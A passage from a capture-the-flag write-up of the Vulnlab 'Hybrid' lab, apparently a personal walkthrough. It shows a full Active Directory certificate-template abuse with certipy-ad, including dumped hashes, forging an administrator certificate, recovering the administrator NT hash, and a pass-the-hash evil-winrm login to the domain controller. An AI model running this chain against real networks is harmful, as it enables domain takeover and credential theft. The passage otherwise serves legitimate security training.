        NTLM HASH : 0f916c5246fdbc7ba95dcef4126d57bd
        AES-256 HASH : eac6b4f4639b96af4f6fc2368570cde71e9841f2b3e3402350d3b6272e436d6e
        AES-128 HASH : 3a732454c95bcef529167b6bea476458
```

Using the hash of **MAIL01**$, Requesting certificate for Template “**HybridComputers**”, for Administrator UPN(User Principal Name) and setting key-size to **4096**, as mentioned “Minimum RSA Key Length”.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ certipy-ad req -u 'MAIL01$'@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -c 'hybrid-DC01-CA' -target 'hybrid.vl' -template 'HybridComputers' -upn 'administrator@hybrid.vl' -dc-ip 10.10.155.165 -key-size 4096 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[+] Trying to resolve 'hybrid.vl' at '10.10.155.165'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.155.165[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.155.165[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'administrator@hybrid.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

When requesting the administrator hash using the certificate, we got the following error:

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.155.165 -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@hybrid.vl
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
```

We removed the certificate `administrator.pfx` and then used the following command to request the certificate again:

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ certipy-ad req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip "10.10.228.165" -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 19
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Then we were able to request the administrator's hash using the certificate.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.155.165 -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@hybrid.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@hybrid.vl': aad3b435b51404eeaad3b435b51404ee:60701e8543c9f6db1a2af3217386d3dc
```

Was able to use `evil-winrm` to log in to the DC as the administrator and obtain the root flag.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ evil-winrm -i hybrid.vl -u administrator -H "60701e8543c9f6db1a2af3217386d3dc"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----   
```


---
